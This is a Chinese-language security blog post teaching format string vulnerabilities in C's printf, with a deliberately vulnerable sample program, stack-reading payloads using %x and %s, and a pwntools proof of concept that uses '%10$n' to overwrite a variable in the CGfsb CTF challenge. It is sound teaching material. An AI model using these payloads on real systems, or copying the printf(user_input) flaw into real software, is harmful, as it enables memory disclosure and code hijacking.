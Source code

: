 ```yaml
---
layout: post
title:  "【Pwn】格式化字符串漏洞"
date:   2023-09-10 00:00:00 +0800
categories: 安全
tags: 安全 Pwn
comments: 1
mathjax: true
copyrights: 原创
---
```


在 C 语言中，`printf` 函数的定义如下：

```c
int printf(const char *format, ...)
```

可以看到，`printf` 函数只有第一个参数是必须的，剩下都是可选的参数，编译器也不会检查参数个数是否正确。因此下面的代码也是正确的：

```c
printf("%d %d", a);
printf("%d");
```

这里我直接拿之前做的 slides 演示一下这一过程。

假设我们要运行正常的 `printf` 语句

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b, &c);
```

程序会首先按照下图的方式把 `printf` 函数的参数压入栈中。当遇到第一个 `%d` 时，`printf` 函数内部的指针会向高地址移动，读取传入的参数：

<img src="../assets/post/images/image-20230910134310163.png" alt="image-20230910134310163" style="zoom: 40%;" />

遇到第二个 `%d` 后，会继续移动：

<img src="../assets/post/images/image-20230910134705071.png" alt="image-20230910134705071" style="zoom:40%;" />

遇到 `%08x` 后，会继续移动：

<img src="../assets/post/images/image-20230910134753874.png" alt="image-20230910134753874" style="zoom:40%;" />

至此，成功执行了这个函数。

那如果我少传入了一个参数呢？也就是运行

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b);
```

此时，在遇到前两个 `%d` 时，和之前是一样的。但当读取到 `%08x` 时，指针继续向高地址移动，这时指针指向的已经不是我的参数，而是栈中的其它字节了！

<img src="../assets/post/images/image-20230910135026131.png" alt="image-20230910135026131" style="zoom:40%;" />

`printf` 可不会去检查我传入的参数够不够、指针指向的是什么东西，它只会直接输出。这就给了我们可乘之机！

在攻击之前，我们先复习一下 `format` 中常用的占位符：

| 符号 | 含义                          | 传递方式 |
| :--: | ----------------------------- | :------: |
| `%d` | 10 进制数                     |    值    |
| `%x` | 16 进制数                     |    值    |
| `%p` | 指针地址                      |    值    |
| `%s` | 字符串                        |   引用   |
| `%n` | 到目前位置输出的字符 bytes 数 |   引用   |

下面我们考虑几种攻击形式：

- ```c
  printf ("%s%s%s%s%s%s%s%s%s");
  ```

  此时程序会把指针指向的内容作为地址读取，并到该地址读取字符串。

  然而，指针指向的内容很可能不是个地址，然后导致程序崩溃。

- ```c
  printf ("%08x %08x %08x %08x");
  ```

  这样的代码可以用于查看内存。为了更方便理解，我们考虑下面的程序：

  ```c
  int main(int argc, char *argv[])
  {
     char user_input[100];
     scanf("%s", user_input); /* getting a string from user */
     printf(user_input);      /* Vulnerable place */
     return 0;
  }
  ```

  当输入 `\x11\x45\x14\x00 %x %x %x %x %s` 时，其内存栈如图所示：

  <img src="../assets/post/images/image-20230910140005613.png" alt="image-20230910140005613" style="zoom:40%;" />

  由于 `printf` 输出的是 `user_input`，因此 `printf` 自己的内部指针会从 `user_input` 的地址 + 1 处开始读取。而 `user_input` 的具体内容存储在地址更高的地方，我们的 4 个 `%x` 使得指针移动过了无意义的部分，最终指向了我们自己输入的 `0x11451400`，而此时的 `%s` 会直接输出地址 `0x11451400` 中的内容。
  
  当然，这里为了方便起见，我们假设 `user_iput` 的实际内容就存储在其地址 + 5 的位置，因此使用了 4 个 `%x` 来跳过无意义的部分。在实际操作中，我们需要根据实际情况来取得地址偏移。
  
  如此一来，我们可以看到内存中任意位置的内容。
  
- ```c
  printf (“114514%n", &i);
  ```

  正如前文所述，`%n` 表示的是已经输出了多少个 bytes。通过这种方法，我们可以向内存中写入任意数据。

下面，我们以攻防世界 CGfsb 为例进行实操。

扔进 ida 可以提取到

```c
puts("leave your message please:");
fgets(s, 100, stdin);
puts("your message is:");
printf(s);
if ( pwnme == 8 )
{
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
}
else
{
    puts("Thank you!");
}
```

很容易看出，`printf(s)` 一句是存在漏洞的。我们的目标是将 `pwnme` 变量修改为 8。

- 我们的第一步是要确定地址偏移，也就是确定我们输入的 `s` 的内容距离 `s` 的地址存储的位置有多远。

  我们直接输入

  ```
  leave your message please:
  AAAA%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
  your message is:
  AAAAffb7929e-f7fa55a0-00f0b5ff-ffb792ce-00000001-000000c2-616148fb-0000000a-00000000-41414141-78383025-3830252d-30252d78
  ```

  这里可以看到我们输入的 `AAAA`（即 `41414141`）偏移了 10 个 bytes。也就是说，我们要让 `printf` 的内部指针移动 10 下才能移动到我们输入的内容的位置。

- 然后确定 `pwnme` 变量的位置。我们在 ida 中可以看到，其位置为 `0x0804A068`。

- 最后可以编写 POC 了。

  ```py
  from pwn import *
  
  p = process('./pwn')
  p.recvuntil("leave your message please:\n")
  payload = p32(0x804A068) + b'a' * 0x4 + b'%10$n'
  p.sendline(payload)
  				
  p.interactive()
  ```

  这里注意的是，我们多填充了 4 个 a，目的是为了让 `pwnme` 计算得到 8。